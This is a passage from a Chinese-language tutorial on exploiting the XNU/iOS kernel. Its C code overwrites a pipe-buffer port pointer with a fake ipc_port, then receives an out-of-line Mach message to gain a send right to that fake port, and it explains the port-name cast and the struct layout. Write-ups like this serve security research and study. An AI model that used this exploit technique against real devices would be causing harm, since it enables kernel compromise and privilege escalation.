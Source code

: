 
## 偷梁换柱
接下来我们用 fake port 去替换 Pipe Buffer 中的第一个合法 port：
```c
if (SMAP) {
    // spraying worked, now the pipe buffer is filled with pointers to our target port
    // overwrite the first pointer with our second pipe buffer, which contains the fake port
    write(fds[1], &port_pipe_buffer, 8);
}
else {
    write(fds[1], &fakeport, 8);
}
```

同样注意，在 SMAP 模式下应当写入 `port_pipe_buffer` 的地址而不是 userland 的 fakeport 地址。此时我们已经将 fakeport 放到了合法的 port 区域，换句话说我们完全控制了一个 `ipc_port`。

# 接收 Mach OOL Message
由于 port 句柄包含了 rights 信息，我们的篡改会改变 Pipe Buffer 中第一个 port 的句柄，因此我们需要接收 OOL Message 来重新读到这个句柄，还记得之前记录下的 remote port 吗，我们可以通过它接收发送的 OOL Message：
```c
// receive the message from fill_kalloc_with_port_pointers back, since that message contains a send right and we overwrote the pointer of the first port, we now get a send right to the fake port!
struct ool_msg *msg = malloc(0x1000);
ret = mach_msg(&msg->hdr, MACH_RCV_MSG, 0, 0x1000, p, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
if (ret) {
    free(msg);
    printf("[-] mach_msg() failed: %d (%s)\n", ret, mach_error_string(ret));
    goto err;
}

mach_port_t *received_ports = msg->ool_ports.address;
mach_port_t our_port = received_ports[0]; // fake port!
free(msg);
```

这里我们能拿到 fakeport 对应的 port 句柄，而不再是之前的 target port 句柄，这是因为内核在将 OOL Message 拷贝回用户空间时，会执行 `CAST_MACH_PORT_TO_NAME` 宏函数进行转换：
```c
#define CAST_MACH_PORT_TO_NAME(x) ((mach_port_name_t)(uintptr_t)(x))
```

它会截取 `ipc_port` 的头部 `ipc_object` 的 8B，即 `ipc_object` 中的前两个成员：
```c
struct ipc_port {
    struct ipc_object ip_object;
    struct ipc_mqueue ip_messages; 
    // ...
};

struct ipc_object {
    ipc_object_bits_t io_bits; // 4B
    ipc_object_refs_t io_references; // 4B
    lck_spin_t	io_lock_data;
};
```
